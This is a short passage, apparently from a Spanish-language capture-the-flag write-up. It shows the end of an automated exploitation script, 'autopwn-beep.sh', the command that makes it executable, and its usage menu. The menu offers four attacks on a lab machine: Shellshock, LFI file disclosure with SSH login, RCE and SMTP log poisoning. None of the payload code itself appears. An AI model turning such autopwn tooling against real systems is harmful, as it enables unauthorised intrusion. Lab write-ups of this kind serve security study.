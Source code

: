 ```shell
        smtp_log_poisoning
	else
		help
	fi
	;;
    *) help
	;;
  esac
done
```

Añadir permisos de ejecución:

```shell
chmod +x autopwn-beep.sh
```

Elije el payload:

```shell
❯ bash autopwn-beep.sh
[!] Usage: autopwn-beep.sh -p [1-4]
[!] Example: autopwn-beep.sh -p 1

1 = Shellshock
2 = LFI File Disclosure SSH Login
3 = RCE Vulnerability
4 = SMTP Log Poisoning
```

